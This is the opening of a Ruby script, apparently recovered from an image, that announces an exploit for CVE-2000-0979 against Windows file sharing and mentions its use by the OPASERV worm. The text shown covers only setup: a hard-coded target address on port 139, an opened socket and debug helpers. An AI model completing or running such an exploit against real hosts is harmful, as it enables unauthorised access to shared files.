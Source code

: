 EXP
---


    # this program will exploit CVE-2000-0979.
    # Exploit was used by Share Password Checker
    # http://www.securityfriday.com/tools/SPC.html
    # and by WORM_OPASERV


    #TODO convert to Metasploit

    require 'socket'
    require 'hexdump'
    #Method: Rex::Text.to_hex_dump
    #Defined in:
    #            lib/rex/text.rb
    #permalink .to_hex_dump(str, width = 16, base = nil) ⇒ Object

    #require 'pp'

    delay = 0.001

    puts "Hello CVE-2000-0979"
    hex = Hexdump::Dumper.new
    RHOST = '192.168.1.113' #'127.0.0.1'
    RPORT = 139

    $debug = FALSE


    socket = TCPSocket.open(RHOST, RPORT)
    BUFFER_SIZE = 1000

    def debug_puts(message)
      if $debug
        puts message
      end
    end

    def debug_hex_dump(hex,message)
      if $debug
        puts hex.dump(message)
      end
    end

    def sock_close(socket)
      debug_puts "Closing the Client..................."
      socket.close                    # Close the socket
    end
